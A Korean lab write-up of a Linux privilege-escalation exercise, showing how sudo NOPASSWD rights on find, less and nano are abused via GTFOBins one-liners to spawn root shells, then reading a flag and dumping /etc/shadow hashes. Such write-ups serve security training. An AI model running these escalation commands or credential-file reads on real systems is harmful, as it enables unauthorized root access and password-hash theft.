

# Linux Privilege Escalation: Sudo
> 특정 바이너리에 대한 sudo 권한을 악용하여 루트 권한을 획득하는 과정을 수행했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.60.159
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **OS 정보**: Ubuntu 20.04.1 LTS (Linux 5.4.0-1029-aws)
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속

- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.60.159
```


### 2.2 Sudo 권한 확인

- karen 사용자는 비밀번호 없이 `find`, `less`, `nano`를 sudo로 실행할 수 있는 권한이 있다. (NOPASSWD 설정)

```bash
sudo -l
```


### 2.3 GTFOBins 참고
- https://gtfobins.github.io/ 사이트에서 각 명령어(`find`, `less`, `nano`)에 대한 권한 상승 방식 참고하여 루트 쉘 획득 시도를 하였다.

---

## 3. 명령어별 권한 상승

### 3.1 find 명령어 이용

- `-exec` 옵션을 사용하여 루트 권한으로 쉘을 실행하였다.
```bash
sudo find . -exec /bin/sh \; -quit
```
- 이후 루트 쉘에서 flag2.txt 파일을 검색 및 확인하였다.

```bash
find / -name flag2.txt
cat /home/ubuntu/flag2.txt
```


---

### 3.2 less 명령어 이용

```bash
sudo less /etc/profile
!/bin/sh
```
- less 명령어로 파일을 열고 `!/bin/sh`를 실행하면 쉘이 생성되었다.


- 해당 쉘은 sudo로 실행되었기 때문에 루트 쉘을 획득하였다.


---

### 3.3 nano 명령어 이용
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
- `nano` 실행 후 Ctrl+R, Ctrl+X 키를 눌러 명령 실행 모드 진입을 했다.
- `reset; sh 1>&0 2>&0` 입력하여 루트 쉘을 획득하였다.


- 루트 권한이 부여되었음을 확인하였다.

```bash
cat /etc/shadow
```

- 루트 권한으로만 접근 가능한 `/etc/shadow` 파일 내용을 출력하였다.
- karen, frank 등의 계정 해시를 포함하여 모든 사용자 정보 확보하였다.



---

## 느낀 점

**Sudo NOPASSWD 설정과 GTFOBins 활용이 얼마나 강력한지를 실습을 통해 체감**할 수 있었고, 각 **바이너리 별로 쉘 획득 방식이 다양하다는 점**을 실습으로 익힐 수 있었습니다.

